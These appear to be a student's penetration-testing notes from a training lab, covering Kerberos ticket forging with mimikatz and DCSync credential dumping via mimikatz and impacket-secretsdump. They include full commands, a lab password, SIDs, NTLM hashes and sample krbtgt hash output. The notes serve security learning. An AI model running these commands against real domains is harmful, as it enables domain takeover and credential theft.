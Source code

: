 Check if we have access to service
```
iwr -UseDefaultCredentials http://web04
```
if service has active session on our machine, use mimikatz to get NTLM hash

now let's get SID of user
```
whoami /user
```

remember for SID to omit last 4 digits if we're interested in domain SID

use kerberos::golden to gernerate ticket
```
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
```

use klist to view ticket
```
klist
```

can recheck our creds
```
iwr -UseDefaultCredentials http://web04
```
### Domain Controller Synchronization
To launch synchronization attack, To launch such a replication, a user needs to have the Replicating Directory Changes, Replicating Directory Changes All, and Replicating Directory Changes in Filtered Set rights. By default, members of the Domain Admins, Enterprise Admins, and Administrators groups have these rights assigned.

can be done via mimikatz or linux
example to get dave password

```
.\mimikatz.exe
lsadump::dcsync /user:corp\dave
```

can use hashcat to crack the hash

from linux we can do the same thing

```
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
```

if using impacket-secrets dump, output will look like this
```
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1693c6cefafffc7af11ef34d1c788f47:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:e1cced9c6ef723837ff55e373d971633afb8af8871059f3451ce4bccfcca3d4c
krbtgt:aes128-cts-hmac-sha1-96:8c5cf3a1c6998fa43955fa096c336a69
krbtgt:des-cbc-md5:683bdcba9e7c5de9
[*] Cleaning up...

```
